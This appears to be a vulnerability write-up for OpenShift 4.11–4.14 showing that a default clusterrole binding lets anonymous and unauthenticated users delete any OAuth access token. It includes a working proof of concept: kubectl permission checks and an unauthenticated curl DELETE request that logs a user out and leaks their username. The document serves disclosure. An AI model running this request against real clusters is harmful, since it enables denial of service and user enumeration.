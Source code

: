 # openshift-oauthaccesstokens
## Description
In the current version of Openshift, 4.14, and back to at least 4.11, *all* users, including `system:anonymous `get the permission to delete any instance of the resource `oauthaccesstokens`. This allows any user that can list the resource `oauthaccesstokens` to force logout all other users, which can lead to a Denial of Service. 

Since the user `system:anonymous`, by default, also gets the permission to delete `oauthaccesstokens`, if the kubernetes API is publicly exposed, anyone could force logout users on the cluster, however, exploitation is less viable here since `system:anonymous` cannot list `oauthaccesstokens`.

Successfully deleting an `oauthaccesstoken` through the kubernetes API also leaks the username for whom the `oauthaccesstoken` was.

This permission is given to all users through the `clusterrole` `system:oauth-token-deleter`:
```powershell
PS > kubectl get clusterroles system:oauth-token-deleter -oyaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  annotations:
    rbac.authorization.kubernetes.io/autoupdate: "true"
  creationTimestamp: "2023-11-22T01:36:07Z"
  name: system:oauth-token-deleter
  resourceVersion: "8425"
  uid: 0fd49273-2c6b-4a0a-a8ab-735be5b01f2e
rules:
- apiGroups:
  - ""
  - oauth.openshift.io
  resources:
  - oauthaccesstokens
  - oauthauthorizetokens
  verbs:
  - delete
```

Which in turn is bound to `system:authenticated` and `system:unauthenticated` through the `clusterrolebinding` `system:oauth-token-deleters` : 

```powershell
PS > kubectl get clusterrolebinding system:oauth-token-deleters -oyaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  annotations:
    rbac.authorization.kubernetes.io/autoupdate: "true"
  creationTimestamp: "2023-11-22T01:36:08Z"
  name: system:oauth-token-deleters
  resourceVersion: "8477"
  uid: 6cbb646c-2836-4e7e-a08a-551c093a268e
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: system:oauth-token-deleter
subjects:
- apiGroup: rbac.authorization.k8s.io
  kind: Group
  name: system:authenticated
- apiGroup: rbac.authorization.k8s.io
  kind: Group
  name: system:unauthenticated
```

From a security perspective, by default, it should not be possible for any user to delete the `oauthaccesstoken` of another user.
It should definitely not be the default for e.g. `system:anonymous` or `system:unauthenticated` to have write access to resources, especially to delete any `oauthaccesstoken`.

This behavior seems to be correctly implemented through the clusterresource `useroauthaccesstokens` where you can't see or delete the accesstokens for another user, nor can an unauthenticated user see delete the tokens.
## Tested versions
Tested on Openshift versions:
4.11 (https://www.redhat.com/en/interactive-labs/openshift)
4.12 (production clusters on openstack)
4.14 (local openshift cluster)
The proof of concept below works on all the above versions.

## Proof of Concept
All commands below were executed against a local deployment of Openshift:
```powershell
PS > curl https://api.crc.testing:6443/version -k -H "Authorization: Bearer $TOKEN"
{
  "major": "1",
  "minor": "27",
  "gitVersion": "v1.27.6+b49f9d1",
  "gitCommit": "f3ec0ed759cde48849b6e3117c091b7db90c95fa",
  "gitTreeState": "clean",
  "buildDate": "2023-11-08T18:57:38Z",
  "goVersion": "go1.20.10 X:strictfipsruntime",
  "compiler": "gc",
  "platform": "linux/amd64"
}
```

Using `kubectl` the `kubeadmin` user, as well as `system:anonymous`, as `system:unauthenticated` have the permission to delete `oauthaccesstokens`: 

```powershell
PS > oc login -u kubeadmin https://api.crc.testing:6443

PS > kubectl auth can-i delete oauthaccesstokens
Warning: resource 'oauthaccesstokens' is not namespace scoped in group 'oauth.openshift.io'

yes

PS > kubectl auth can-i delete oauthaccesstokens --as=system:unauthenticated
Warning: resource 'oauthaccesstokens' is not namespace scoped in group 'oauth.openshift.io'

yes

PS > kubectl auth can-i delete oauthaccesstokens --as=system:anonymous
yes
```

Using the kubernetes API, we can, without authentication, delete the `oauthaccesstoken` for e.g. `kubeadmin`:

```powershell
PS > kubectl get oauthaccesstokens
NAME                                                 USER NAME   CLIENT NAME                    CREATED   EXPIRES                         REDIRECT URI                                                    SCOPES
sha256~LR7jgWOXifItKnPJX0Z10vJTm-jco2Nn-jsA-hHId-0   kubeadmin   openshift-challenging-client   10m       2023-12-08 08:17:11 +0000 UTC   https://oauth-openshift.apps-crc.testing/oauth/token/implicit   user:full
sha256~VFpOILn8edFxQXqZX3LsYQuk69kO419VUUkD5E5qb4k   developer   openshift-challenging-client   10m       2023-12-08 08:17:12 +0000 UTC   https://oauth-openshift.apps-crc.testing/oauth/token/implicit   user:full

PS > curl https://api.crc.testing:6443/apis/oauth.openshift.io/v1/oauthaccesstokens/sha256~VFpOILn8edFxQXqZX3LsYQuk69kO419VUUkD5E5qb4k -XDELETE -k
{
  "kind": "OAuthAccessToken",
  "apiVersion": "oauth.openshift.io/v1",
  "metadata": {
    "name": "sha256~VFpOILn8edFxQXqZX3LsYQuk69kO419VUUkD5E5qb4k",
    "uid": "49eecfde-84c3-43bb-8e88-fedf3ccd4a6e",
    "resourceVersion": "35718",
    "creationTimestamp": "2023-12-07T08:17:12xZ",
    "managedFields": [
      {
        "manager": "oauth-server",
        "operation": "Update",
        "apiVersion": "oauth.openshift.io/v1",
        "time": "2023-12-07T08:17:12Z",
        "fieldsType": "FieldsV1",
        "fieldsV1": {
          "f:authorizeToken": {},
          "f:clientName": {},
          "f:expiresIn": {},
          "f:redirectURI": {},
          "f:scopes": {},
          "f:userName": {},
          "f:userUID": {}
        }
      }
    ]
  },
  "clientName": "openshift-challenging-client",
  "expiresIn": 86400,
  "scopes": [
    "user:full"
  ],
  "redirectURI": "https://oauth-openshift.apps-crc.testing/oauth/token/implicit",
  "userName": "developer",
  "userUID": "06ff3300-d689-4974-afae-68ea2d4a3921",
  "authorizeToken": "sha256~mIhDukLS7IIBdaSlyeCdCbga7mS2_WhArEdWgSuToVs"
}

PS > kubectl get oauthaccesstokens
NAME                                                 USER NAME   CLIENT NAME                    CREATED   EXPIRES                         REDIRECT URI                                                    SCOPES
sha256~LR7jgWOXifItKnPJX0Z10vJTm-jco2Nn-jsA-hHId-0   kubeadmin   openshift-challenging-client   11m       2023-12-08 08:17:11 +0000 UTC   https://oauth-openshift.apps-crc.testing/oauth/token/implicit   user:full
```





